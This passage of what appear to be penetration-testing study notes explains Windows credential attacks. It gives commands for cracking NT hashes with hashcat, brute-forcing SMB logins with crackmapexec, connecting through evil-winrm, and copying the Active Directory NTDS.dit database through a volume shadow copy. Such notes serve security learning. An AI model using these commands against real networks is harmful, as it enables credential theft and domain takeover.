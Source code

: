 ### Results

We will obtain the following things:
- **MSV**: authentication package in Windows that LSA calls on to validate logon attempts against the SAM database.
- **WDIGEST**:  older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 - Windows Server 2012.
- **Kerberos**: network authentication protocol used by AD.
- **DPAPI**: (Data Protection Application Programming Interface) set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis. DPAPI it is used by Internet Explorer, Google Chrome, Outlook, RDP and Credential Manager.

The NT hash obtain can be cracked with `hashcat` as:
```console
zero@pio$ hashcat -m 1000 <HASH> <WORDLIST>
```

## AD & NTDS.dit

The Windows systems inside of an AD will not use SAM.

### Dictionary Attacks

We can use `crackmapexec` to bruteforce an user:
```console
zero@pio$ crackmapexec smb <IP> -u <USER> -p <WORDLIST>
```

### Capturing NTDS.dit

**NT Directory Services** (**NTDS**) is the directory service used with AD to find & organize network resources. We can connect to it with `evil-winrm`:
```console
zero@pio$ evil-winrm -i <IP> -u <USER> -p <PASSWORD>
```

Inside we can check for our privileges:
```console
*Evil-WinRM* PS C:\> net localgroup
*Evil-WinRM* PS C:\> net user <USER>
```

### Shadow Copy of C: 

We can use `vssadmin` to create a **Volume Shadow Copy** (**VSS**). 
```console
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

We can copy it to a better place:
```console
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
